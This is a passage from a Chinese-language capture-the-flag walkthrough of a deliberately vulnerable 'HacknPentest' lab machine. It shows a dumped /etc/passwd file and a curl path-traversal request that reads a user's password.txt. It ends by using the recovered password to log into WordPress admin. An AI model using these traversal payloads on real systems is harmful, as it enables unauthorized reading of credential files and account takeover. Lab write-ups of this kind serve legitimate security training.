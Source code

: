     uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    messagebus:x:106:110::/var/run/dbus:/bin/false
    uuidd:x:107:111::/run/uuidd:/bin/false
    lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
    whoopsie:x:109:117::/nonexistent:/bin/false
    avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
    avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
    dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
    colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
    speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
    hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
    kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
    pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
    rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
    saned:x:119:127::/var/lib/saned:/bin/false
    usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
    victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
    mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
    saket:x:1001:1001:find password.txt file in my directory:/home/saket:
    sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
    </html>
    
    ```

-   根据提示读取`password.txt` 

-   ```shell
    └─$ curl http://192.168.2.131/image.php?secrettier360=/../../../../../../../../../../../../../../home/saket/password.txt
    <html>
    <title>HacknPentest</title>
    <body>
     <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
    </body>
    finaly you got the right parameter<br><br><br><br>follow_the_ippsec
    </html>
    
    ```

-   尝试登陆`ssh`无果，访问`wordpress/wp-admin`可以进行登陆（账号：victor 密码：follow_the_ippsec)![image-20230518150952423](https://raw.githubusercontent.com/r0o983/images/main/image-20230518150952423.png)
